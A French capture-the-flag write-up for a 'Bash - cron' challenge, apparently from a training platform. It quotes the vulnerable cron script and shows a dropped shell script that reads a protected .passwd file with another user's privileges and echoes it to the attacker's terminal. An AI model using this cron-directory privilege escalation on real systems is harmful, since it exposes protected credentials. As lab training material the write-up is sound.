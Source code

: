 # Bash - cron

## Procédure 

1. Dans la machine j'apperçoit un fichier ch4 qui contient : 

```
#!/bin/bash

# Sortie de la commande 'crontab -l' exécutée en tant que app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# Vous N'avez PAS à modifier la crontab(chattr +i t'façons)

# Output of the command 'crontab -l' run as app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# You do NOT need to edit the crontab (it's chattr +i anyway)

# hiding stdout/stderr
exec 1>/dev/null 2>&1

wdir="cron.d/"
challdir=${0%/*}
cd "$challdir"


if [ ! -e "/tmp/._cron" ]; then
    mkdir -m 733 "/tmp/._cron"
fi

ls -1a "${wdir}" | while read task; do
    if [ -f "${wdir}${task}" -a -x "${wdir}${task}" ]; then
        timelimit -q -s9 -S9 -t 5 bash -p "${PWD}/${wdir}${task}"
    fi
    rm -f "${PWD}/${wdir}${task}"
done

rm -rf cron.d/*
```

On comprend que les fichiers placés dans le repertoire cron.d sont éxécutés avec les droits de app-script-ch4-cracked toutes les minutes.

On comprend aussi que pour insérer un fichier à éxécuter on peut passer par /tmp/._cron.

2. Récupération d'information avant création du script

Il faut pour cela le chemin complet du fichier .passwd soit /challenge/app-script/ch4/.passwd.

Et trouvé le bon numéro correspondant à son terminal.

```
set | grep /dev/pts
SSH_TTY=/dev/pts/13
```

Dans mon cas le numéro 13.

3. Création du script permettant de récupérer et d'afficher le contenu du fichier .passwd

Avant toute chose mettre les droits d'écriture pour /dev/pts/13 afin que app-script-ch4-cracked puisse écrire sur mon terminal. 

```
chmod o+w /dev/pts/13
nano /tmp/._cron.d/shell.sh && chmod 777 /tmp/._cron.d/shell.sh

#!/bin/bash 
echo $(</challenge/app-script/ch4/.passwd) > /dev/pts/13
```

Au bout d'une minute j'obtient le flag

